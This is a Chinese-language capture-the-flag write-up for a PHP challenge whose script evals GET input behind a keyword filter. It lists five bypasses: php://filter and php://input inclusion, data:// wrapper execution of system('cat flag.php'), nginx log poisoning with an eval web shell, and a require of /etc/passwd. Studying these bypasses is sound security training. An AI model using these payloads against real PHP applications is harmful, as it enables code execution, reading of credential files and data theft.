








```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

同上一题


## 第一种

利用命令执行及文件包含

```
?c=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```






## 第二种

也可以利用php://input执行系统命令

```
?c=include$_GET[a]?>&a=php://input
POST提交：
<?php system("cat flag.php");?>
```




## 第三种

也可以用data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```




## 第四种

日志注入

```
ra<?php @eval($_POST[a]);?>
```





GET

```
?c=include$_GET[a]?>&a=../../../../var/log/nginx/access.log
```

POST

```
a=system("cat flag.php");
```




## 第五种

利用require进行文件包含

```
?c=require$_GET[a]?>&a=/etc/passwd
```



成功包含/etc/passwd

也就是可以利用前面的四种做法来做